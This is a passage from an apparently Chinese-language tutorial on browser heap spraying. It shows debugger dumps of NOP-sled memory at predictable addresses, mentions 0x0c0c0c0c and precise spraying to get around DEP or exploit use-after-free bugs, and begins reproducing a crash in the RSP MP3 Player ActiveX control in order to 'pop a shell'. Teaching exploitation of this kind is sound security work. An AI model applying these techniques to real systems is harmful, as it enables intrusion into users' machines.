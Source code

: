 ```
- 0x05050505
- 0x06060606
- 0x07070707
- ....
```

另外一个具有特殊意义的地址是0x0c0c0c0c，第二部分将会解释。

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01790c8f742c267988.png)

```
0:014&gt; d 04040404
04040404  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040414  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040424  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040434  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040444  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040454  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040464  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040474  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014&gt; d 05050505
05050505  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050515  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050525  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050535  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050545  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050555  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050565  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050575  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014&gt; d 06060606
06060606  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060616  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060626  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060636  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060646  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060656  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060666  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
06060676  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```

再次重申第一部分只讲典型的堆喷射，精确喷射会在第二部分将。为什么需要精确喷射？

(1)  我们需要处理DEP；

(2)  我们正在利用UAF类漏洞；

所有的准备工作完成，是时候弹shell了。

**<br>**

**崩溃重现**

下载RSP MP3 Player 并安装。转到rspmp3ocx320sw.ocx文件所在文件夹，执行

```
regsvr32 rspmp3ocx320sw.ocx
```
